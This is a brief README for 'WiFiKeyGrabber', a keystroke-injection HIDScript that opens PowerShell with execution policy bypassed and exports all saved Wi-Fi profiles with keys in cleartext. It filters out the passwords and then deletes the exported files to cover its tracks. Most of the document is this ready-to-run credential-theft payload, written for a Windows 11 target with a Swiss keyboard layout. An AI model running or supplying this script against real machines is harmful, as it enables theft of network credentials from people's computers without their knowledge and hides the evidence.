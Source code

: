 # Credentials - WiFiKeyGrabber

## Description

WiFiKeyGrabber is a simple HIDScript that show in powershell output the saved Wi-Fi Passwords.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

## Code

```bash
layout("ch")
press("GUI r")
delay(200)
type("powershell.exe -nop -exec bypass")
press("ENTER")
delay(1000)
type("netsh wlan export profile key=clear")
press("ENTER")
type("Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' | Select Filename, LineNumber, Line, Path | Format-Table")
press("ENTER")
type("del Wi-Fi*.xml")
press("ENTER")
```
